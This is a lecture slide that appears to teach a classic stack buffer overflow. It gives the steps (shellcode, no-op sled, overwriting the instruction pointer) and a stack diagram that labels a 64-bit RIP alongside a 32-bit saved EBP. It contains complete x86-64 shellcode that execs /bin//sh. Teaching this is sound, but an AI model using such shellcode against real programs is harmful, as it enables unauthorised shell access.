

# Traditional Buffer Overflow Exploit (cont.)
0xFFFFFFFF
Develop Shellcode
Place no-op sled on the stack
Place Shellcode on the stack
Align RIP (Instruction Pointer to point back to shellcode)

global _start
section .text
_start:
	xor rsi,rsi
	push rsi
	mov rdi,0x68732f2f6e69622f
	push rdi
	push rsp
	pop rdi
	push 59
	pop rax
	cdq
	syscall
| ... |
| --- |
| Pointer to no-op sled |
| Saved EBP |
| Shellcode |
| No-op sled |
| ... |
Shellcode
0x00000000